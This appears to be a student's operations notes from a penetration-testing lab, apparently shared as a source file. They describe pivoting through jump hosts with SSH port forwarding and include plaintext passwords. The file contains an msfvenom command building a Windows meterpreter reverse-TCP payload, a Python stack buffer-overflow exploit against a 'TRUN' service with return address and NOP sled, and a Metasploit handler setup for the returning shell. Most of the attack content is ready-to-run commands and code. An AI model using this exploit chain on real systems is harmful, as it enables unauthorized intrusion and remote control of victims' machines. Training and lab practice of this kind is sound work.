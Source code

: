 # scheme of manuever
LINOPS                                      
  -> JUMP                                                   
    -> GREYSITE
      -> T3 192.168.150.245
      
# opnotes: all commands are ran on the linops
ssh -MS /tmp/jump student@10.50.39.53 ## PassW:EM5UCDd0t5NrkXb ##       -> gets on jump
ssh -S /tmp/jump jump -O forward -L2222:192.168.28.120:4242           	-> fowards port 2222 to greysite ip using known alternate ssh port
ssh -MS /tmp/t1 -p2222 student@127.0.0.1 ## PassW:YourTempPassword ##   -> gets onto greysite using the previous forward port and the local host.  
proxychains python ./wtvuwant.py                                        -> this cmd will execute the script on greysite. greysite sends the exploit to T3.

0)this is the last command ran, should be ran only after completing the below steps:
1)msfvenom: new random port and copy shell code over to winsploit script
2)winsploit script: update shell code and update ip to T3 IP
3)msfconsole: update local port to match new random hig port in msfvenom. run exploit.
4)run the proxychains cmd above.
                                                                        
## 1) msfvenom 
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.39.104 lport=1234 -b "\x00" -f python

## 2) windows exploitation script
#!/usr/bin/env python
import socket

buf = "TRUN /.:/"
buf += "A" * 2003
buf += "\xa0\x12\x50\x62"
buf += "\x90" * 10

buf += "much buffer overflow shellcode"
buf += b"\x8b\x2b\x04\x53\xff\x19\x8b\xcf\x97\x11\x44\xd6"
buf += "much buffer overflow shellcode"

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)    
s.connect (("192.168.150.245",9999))                     
print s.recv(1024)                                       
s.send(buf)                                               
print s.recv(1024)                                        
s.close()                                              

## 3) msfconsole exploit
> use multihandler, > set payload windows/meterpreter/reverse_tcp, > Set LHOST 0.0.0.0, > set lport 1234
